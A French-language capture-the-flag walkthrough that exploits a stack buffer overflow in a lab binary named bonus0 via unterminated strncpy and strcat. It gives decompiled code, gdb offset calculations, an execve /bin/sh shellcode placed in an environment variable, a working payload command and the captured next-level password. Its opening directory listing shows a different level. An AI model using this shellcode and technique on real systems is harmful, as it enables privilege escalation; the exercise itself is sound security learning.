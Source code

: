 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
/home/user/level8
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus0` :

```bash
$ ./bonus0
 -
da
 -
b
da b
```

Sans succès, je me penche dès lors sur la décompilation.
J'utilise [Dogbolt](https://dogbolt.org/?id=e155fda2-581f-4305-ad94-25b044fdefd5#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus0`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
unsigned short *a = 32;

void p(char *string, char *string2) // <--------1 received string, 20 bytes buffer
{
    char buffer[4096];

    puts(string2);
    read(0, buffer, 4096);
    *strchr(buffer, '\n') = 0;
    strncpy(string, buffer, 20); // <-----------2 writes 20 bytes of buffer into string, but null terminator is not manually added, meaning we could "concat" to adjacent memory
}


void pp(char *string)
{
    char buffer[20];
    char buffer2[20];

    p(buffer2, " - ");
    p(buffer, " - ");

    strcpy(string, buffer2); // <---------------3 string is 42 bytes buffer, and due to 2., will contain both buffers, leaving 2 bytes before overflow

    string[strlen(string)] = *a;

    strcat(string, buffer); // <----------------4 this concat means string will overflow by 18 bytes (20 from buffer - 2 remaining), allowing for a Ret2Libc
}

int main()
{
    char buffer[42];

    pp(buffer);
    puts(buffer);

    return 0; // <------------------------------5 overflow overwrite this to point to shellcode running /bin/sh
}
```

Je ne remarque pas d'appel système ici, il s'agirait donc d'exécuter du code arbitraire. Je cherche la vulnérabilité possible.

Je remarque une faille possible dans `p()` :

```c
strncpy(string, buffer, 20);
```

Cette ligne copie 20 caractères de buffer dans string ce qui est sa taille, en revanche le null terminator n'est pas ajouté par strncpy, donc, si buffer écrit 20 caractères ou plus, alors string ne sera pas null terminated et pointera donc sur string2.

Dans `pp()` :

```c
    strcpy(string, buffer2);
```

On voit qu'ici, `string` va prendre la valeur de `buffer2`, mais comme il vient d'être altéré sans null terminator par `p()`, et bien il copiera également le contenu de `buffer` puisqu'il est adjacent dans la mémoire.

Cela donnera à `string` une taille de 40 bytes, et sa taille maximale est 42 bytes, or, à la fin de `pp()` :

```c
    strcat(string, buffer);
```

Va ajouter les 20 bytes de `buffer` à `string` et va donc causer un overflow sur 19 bytes.

J'utilise `gdb` afin de déterminer la taille de la stack et savoir combien de bytes de padding sont nécessaire afin de ré-écrire l'adresse de retour de `main()` :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave <------------------ breakpoint avant de leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) b *main+38
Breakpoint 1 at 0x80485ca
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -

 -

Breakpoint 1, 0x080485ca in main ()
(gdb) info registers
...
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
...
```

Je fais le calcul du padding avec : `ebp` - `esp` soit `0xbffff738 - 0xbffff6f0= 0x48 = 72` bytes.

Je soustrais la différence de la position du buffer dans la stack : 

```h
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp 
   0x080485ad <+9>:     lea    0x16(%esp),%eax <------------ ici
```

Soit `0x48 - 0x16 = 0x32 = 50` bytes. Cela me donne le nombre de bytes pour atteindre `ebp`, j'ajoute 4 bytes pour atteindre la `return address` soit 54 bytes de padding avant de pouvoir ré-écrire sur cette dernière et devenir la nouvelle adresse de `ret` pour `main()`.

Je dois bien prendre en compte que mon payload va être re-structuré par l'exécution du binaire et l'espace que j'ai :

- 20 bytes sur `buffer2` puisque je n'ai plus la null termination
- 19 bytes sur `buffer` + 1 pour la null termination
- 2 bytes "restant" sur le buffer d'origine dans `main()`
- 19 bytes à nouveau puisque `buffer` est re-concatené

J'atteint l'adresse de retour au bout de 54 bytes, et j'en ai 59 possible à l'écriture, il faut donc que je place l'adresse de retour de mon exploit 5 bytes avant la fin du buffer.

Mon payload ressemblerait donc à `buffer2 + buffer1 + buffer1`, il me faudrait donc le construire ainsi :

```h
'\x90' * 20 + '\x90' * 14 + adresse sur 4 bytes + '\x90'
```

Cela devrait placer l'adresse au (20 + 14 + 4 + 1 + 14 = 54ème) bytes.
Etant donné que je n'ai que 4 bytes, je ne peux pas utiliser la méthode `Ret2Libc`, mais je peux utiliser `Ret2Shellcode` en utilisant l'adresse du [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) stocké dans une variable environnement avec un `NOP sled` le précédant, pour l'alignement :

```bash
$ export BYE=$'\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Ayant fait l'erreur dans `Override`, je ne la reproduis pas ici, en nomant ma variable environnement sur 4 bytes afin d'obtenir l'adresse du début du `NOP sled` et non de son nom, et ajoute le `$` pour gérer les escape sequence `\x`.

Je récupère l'adresse de la variable environnement dans la mémoire du binaire :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/100s environ
...
0xbfffff1d:      "BYE=\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
...

(gdb) x/100x 0xbfffff1d
0xbfffff1d:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff25:     0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73    0x68
0xbfffff2d:     0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3    0x50
0xbfffff35:     0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80    0x00
0xbfffff3d:     0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35    0x31
0xbfffff45:     0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d    0x32
0xbfffff4d:     0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f    0x68
0xbfffff55:     0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65    0x72
0xbfffff5d:     0x2f    0x62    0x6f    0x6e    0x75    0x73    0x30    0x00
0xbfffff65:     0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45    0x3d
0xbfffff6d:     0x62    0x6f    0x6e    0x75    0x73    0x30    0x00    0x53
0xbfffff75:     0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e    0x45
0xbfffff7d:     0x43    0x54    0x49    0x4f
```

Je vois mon `NOP sled` à la fin de la première adresse, et prend donc la seconde : `0xbfffff25` dont le premier byte `\x31` correspond bien au premier byte de mon shellcode.

Je peux donc tenter de construire mon payload :

```python
python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90"'
```

Ce qui remplis le premier buffer de `NOP`, puis le second de 14 bytes de `NOP` et enfin l'adresse qui pointe sur le shellcode, puis 1 byte qui correspondait a la null termination du buffer (1).

Je l'essaye :

```bash
$ (python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90"'; cat) | ./bonus0
 -
 -
����������������������������������%���� ��������������%����
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
